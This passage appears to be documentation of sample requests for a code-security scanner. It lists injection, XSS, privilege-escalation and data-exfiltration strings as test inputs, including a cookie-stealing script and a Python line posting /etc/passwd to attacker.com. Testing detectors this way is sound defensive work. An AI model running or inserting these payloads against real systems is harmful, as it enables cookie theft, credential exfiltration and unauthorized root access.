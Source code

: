 **Multiple code injection attacks:**
```json
{
  "text": "Function('return ' + userInput)(); setTimeout('malicious_function()', 0); eval('malicious_code_here')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 7. **Cross-Site Scripting (XSS)**
```json
{
  "text": "<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple XSS payloads:**
```json
{
  "text": "<img src=x onerror=alert('XSS')><iframe src=\"javascript:alert('XSS')\"></iframe><script>document.location='http://attacker.com/steal'</script>",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 8. **Privilege Escalation**
```json
{
  "text": "sudo su -",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple privilege escalation attempts:**
```json
{
  "text": "chmod 777 /etc/passwd; usermod -aG root attacker; sudo su -",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 9. **Data Exfiltration**
```json
{
  "text": "import requests; requests.post('http://attacker.com', data=open('/etc/passwd').read())",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```
